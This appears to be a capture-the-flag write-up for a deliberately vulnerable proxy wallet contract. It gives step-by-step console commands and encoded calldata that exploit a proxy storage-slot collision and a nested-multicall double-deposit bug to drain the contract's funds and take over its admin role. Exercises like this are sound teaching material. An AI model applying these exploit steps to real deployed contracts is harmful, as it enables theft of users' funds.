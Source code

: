 # Logic

Pretty sure that you read the documentation of the proxy pattern before reading this, but in case you didn't do, do it :)

Little hint, you can access the function from proxy by using 
```
await contract.sendTransaction({data: <your_data>});
```


# Solution

Well, possibly you didn't find the vulnerability so let's take a look at the contracts. From the documentation we know that the Proxy and the Implementation have the same storage layout. So, as we can see at:

```
| slot      |      proxy     |   contract     |
| --------------------------------------------|
| slot 0    |  pendingAdmin  |     owner      |
| --------------------------------------------|
| slot 1    |      admin     |   maxBalance   |
```

So by changing a variable will actually change 2. Our goal to change the admin involves either changing the `admin` variable or changing the `maxBalance`

We can see that in implementation we don't have access at any function. The majority have the `onlyWhitelisted` modifier, and you are not whitelisted. You can check it by running:
```
await contract.whitelisted(player)
```

To get whitelisted you have to run a `addToWhitelist`, but you have to be the owner. We can't see a function that change the owner in the `PuzzleWallet`, but we see a function that change the `pendingAdmin`, and it is callable by anyone.

You can call it by:
```
await contract.sendTransaction({data: <your_data>});
```
where your_data is obtain by concatenating the function selector and the arguments: "0xa6376746" + `<player_address>`

After running this, you can check the owner of the contract and you will see that it is the address that you introduced above as `<player_address>`

Let's whitelist us, now that we have the owner role:
```
await contract.addToWhitelist(player)
```

After that we can see that we can change the `maxBalance`, atleast we can pass the `onlyWhitelisted` modifier. Let's check the balance of the contract before calling the function:
```
await getBalance(contract.address)
```

As we can see, it is above `0`, so it will fail at the `require(address(this).balance == 0, "Contract balance is not 0");`

Let's drain that contract balance!!!

We can see that a `call` is made from the `execute` function, but we see that we can send only as much as we have in the balance, so we have to make our balance to show more than we actually send, because we want to drain all the funds.

We can do it by calling `multicall` function, as we can see that is vulnerable to reentrancy attacks. We know that when we use delegatecall for multiple function, for each call the msg.value is the same. They made a check for multiple `deposits` in the `data` array, but didn't think of calling `multicall` in a `multicall` with another `deposit` in it.

Let's calculate the data that you have to send
deposit: `0xd0e30db0`
multicall with another deposit: `ac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000`

Also, we have to add the amount that will be deposited. We selected the same amount that was in the contract: `1000000000000000` which is `0.001 ether`

So the call will be:
```
await contract.multicall(["0xd0e30db0", "0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000"], {value: 1000000000000000})
```

Now that our balance appears with `0.002 ether` we can call `execute`
```
await contract.execute(player, 2000000000000000, "0x")
```

The balance is drained now, so let's call the final function, `setMaxBalance`. 

```
await contract.setMaxBalance("<amount>")
```
**where amount is your address converted to uint256**

I deployed a small contract with Remix and made that conversion and copy paste it in the above contract. You can get the contract in `Converter.sol`